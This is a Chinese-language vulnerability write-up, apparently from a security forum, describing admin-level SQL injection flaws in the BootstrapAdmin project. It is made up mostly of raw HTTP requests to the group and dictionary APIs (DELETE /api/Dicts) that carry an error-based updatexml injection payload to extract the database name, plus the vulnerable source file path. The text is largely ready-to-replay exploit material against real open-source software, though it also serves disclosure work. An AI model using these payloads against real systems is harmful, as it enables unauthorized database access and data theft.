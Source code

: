 ```python
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Admin/Groups
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: .AspNetCore.Antiforgery.a2HlFfgw_P8=CfDJ8Gs8oXs1rxRKjEnWjDIDxNYIk8qTrVAchQMdNQDsqE0fBboelKrRDrSlcNGeSNFI1jNSivWc5b5t8tkI1SES8xumGS6HdMyCcTFdEqocP7y74P26iG_iKW6RRYrazzhQNkcvDfYzcxAzdbm-f5FqO88; .AspNetCore.Cookies=CfDJ8Gs8oXs1rxRKjEnWjDIDxNaE3CXKRjutQdTU9MI2xO1nRk7yd-9PgK41JPtnvxNoybJwZclKPosGkyWisjmmpaB2xJkLw04jWnB1ZpvrHYBNhbm02wR62IXpOdYVnmBRgSs7UrKRDnk-fAR9CRWNiYrLr5Dq9irg-R7uxSbuwu1A-eKvcQUsLvd_nvlRmExl_ay-3wo0v1rvUe1pwpbhyzzda5HLQbh0XOMmor5h0q66o9vFYO5dgBUGqYxpBidWCv0PoKzqGQeA_8dxsBolEctWPrQEKakod3mJ1HrIKQR1
Connection: close

["updatexml(1,concat(0x7e,database(),0x7e),3)"]
```

### 漏洞定位

`BootstrapAdmin\src\mvc\admin\Bootstrap.DataAccess\Group.cs`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-c237f29ea82b3236f58b46d56d5d83d927eef30c.png)

【后台】删除字典中的数据存在SQL注入
-------------------

权限：后台管理员用户权限

### 漏洞利用

`http://localhost:50852/api/Dicts`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-eeb1488bda09e7410f63cc1d8c23206c7c797176.png)

请求包：

```python
DELETE /api/Dicts HTTP/1.1
Host: localhost:50852
Content-Length: 47
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:50852
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Admin/Dicts
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: .AspNetCore.Antiforgery.a2HlFfgw_P8=CfDJ8Gs8oXs1rxRKjEnWjDIDxNYIk8qTrVAchQMdNQDsqE0fBboelKrRDrSlcNGeSNFI1jNSivWc5b5t8tkI1SES8xumGS6HdMyCcTFdEqocP7y74P26iG_iKW6RRYrazzhQNkcvDfYzcxAzdbm-f5FqO88; .AspNetCore.Cookies=CfDJ8Gs8oXs1rxRKjEnWjDIDxNaE3CXKRjutQdTU9MI2xO1nRk7yd-9PgK41JPtnvxNoybJwZclKPosGkyWisjmmpaB2xJkLw04jWnB1ZpvrHYBNhbm02wR62IXpOdYVnmBRgSs7UrKRDnk-fAR9CRWNiYrLr5Dq9irg-R7uxSbuwu1A-eKvcQUsLvd_nvlRmExl_ay-3wo0v1rvUe1pwpbhyzzda5HLQbh0XOMmor5h0q66o9vFYO5dgBUGqYxpBidWCv0PoKzqGQeA_8dxsBolEctWPrQEKakod3mJ1HrIKQR1
Connection: close

["updatexml(1,concat(0x7e,database(),0x7e),3)"]
```
